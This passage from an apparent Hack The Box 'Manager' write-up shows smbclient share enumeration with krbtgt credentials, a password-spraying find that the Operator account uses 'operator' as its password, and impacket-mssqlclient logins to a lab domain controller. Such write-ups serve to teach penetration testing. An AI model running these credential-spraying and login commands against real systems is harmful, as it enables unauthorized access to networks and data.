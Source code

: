 ###### `smbclient to connect to share with credentials we found above`
```
# smbclient -U 'DC01.MANAGER.HTB/krbtgt%krbtgt' //DC01.MANAGER.HTB/ADMIN$
tree connect failed: NT_STATUS_ACCESS_DENIED

# smbclient -U 'DC01.MANAGER.HTB/krbtgt%krbtgt' //DC01.MANAGER.HTB/IPC$  
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_NO_SUCH_FILE listing \*
smb: \> exit

# smbclient -U 'DC01.MANAGER.HTB/krbtgt%krbtgt' //DC01.MANAGER.HTB/C$  
tree connect failed: NT_STATUS_ACCESS_DENIED

# smbclient -U 'DC01.MANAGER.HTB/krbtgt%krbtgt' //DC01.MANAGER.HTB/SYSVOL  
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit

# smbclient -U 'DC01.MANAGER.HTB/krbtgt%krbtgt' //DC01.MANAGER.HTB/NETLOGON
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_ACCESS_DENIED listing \*
smb: \> exit
```
None of the share was accessible through the user `krbtgt`. But If not Notice in the `username` and `passwordlist` file than you will see that there's one account missing which `1119: MANAGER\Operator (SidTypeUser)`. I was banging my head against the wall but when I realized it, I quickly add it to the file and run the following command.
![](Manager_netexec0.png)

Cool, We have an `Operator` account which uses `operator` as a password. This is an important lesson where sometimes, password would be the same as username but just not the Capitol letter. We are going to use `mssql` Service to authenticate to the target. 
###### `Authenticate to MSSQL after Password Spraying usnig netexec`
```
# impacket-mssqlclient 'MANAGER.htb'/'Operator':'operator'@10.10.11.236 -dc-ip 10.10.11.236 -target-ip 10.10.11.236 -debug
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] Encryption required, switching to TLS
```
###### `Encryption required, Switching to TLS`
```
# impacket-mssqlclient 'MANAGER.htb'/'Operator':'operator'@10.10.11.236 -windows-auth                                     
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
```